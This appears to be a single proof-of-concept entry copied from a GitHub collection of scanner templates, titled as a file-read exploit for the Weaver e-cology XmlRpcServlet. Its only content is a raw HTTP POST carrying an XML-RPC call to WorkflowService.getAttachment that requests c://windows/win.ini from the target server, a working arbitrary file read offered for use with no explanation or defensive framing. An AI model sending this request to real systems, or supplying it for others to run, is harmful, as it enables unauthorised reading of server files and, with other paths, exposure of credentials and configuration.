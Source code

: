 # weaver_xmlrpcservlet_fileread
from: https://github.com/Vme18000yuan/FreePOC/blob/master/poc/neclei/weaver-ecology-XmlRpcServlet-FileRead.yaml
```
POST /weaver/org.apache.xmlrpc.webserver.XmlRpcServlet HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 200

<?xml version="1.0" encoding="UTF-8"?><methodCall><methodName>WorkflowService.getAttachment</methodName><params><param><value><string>c://windows/win.ini</string></value></param></params></methodCall>
```
